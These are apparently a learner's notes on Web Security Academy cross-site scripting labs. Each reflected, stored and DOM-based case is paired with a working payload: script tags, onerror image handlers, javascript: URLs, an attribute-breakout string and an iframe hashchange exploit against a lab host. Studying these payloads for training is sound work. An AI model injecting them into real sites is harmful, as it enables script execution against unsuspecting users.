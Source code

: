____

# Reflected XSS into HTML

The value of the **search** request parameter is copied into the HTML document as plain text between tags. 
```js
<script>alert(1)</script> 
```
This input was echoed unmodified in the application's response.


# Stored XSS into HTML 

In the comment section,
```js
<script>alert(1)</script> 
```

# DOM XSS in `document.write` sink using source `location.search`

![[Pasted image 20240803072009.png]]

```html
"><script>alert(1)</script>
```

![[Pasted image 20240803072133.png]]

# DOM XSS in `innerHTML` sink using source `location.search`

Data is read from **location.search** and passed to **element.innerHTML**.

```js
<img src onerror=alert(1)>
```


# DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

The application may be vulnerable to DOM-based link manipulation. Data is read from **location.search** and passed to **jQuery.attr.href**.

```js
javascript:alert(1)
```

![[Pasted image 20240803074347.png]]

# DOM XSS in jQuery selector sink using a hashchange event

```js
#<img src onerror=alert(1)>
```

```html
<iframe src="https://0a7700c6030ec6b582e3533b006c00b1.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

# Reflected XSS into attribute with angle brackets HTML-encoded

```html]
"><script>alert(1)</script>
```

The value of the **search** request parameter is copied into the value of an HTML tag attribute which is encapsulated in double quotation marks. The payload **uy0y9"onfocus="alert(1)"autofocus="zkgoa** was submitted in the search parameter.

# Stored XSS into anchor `href` attribute with double quotes HTML-encoded

```js
javascript:alert(1)
```




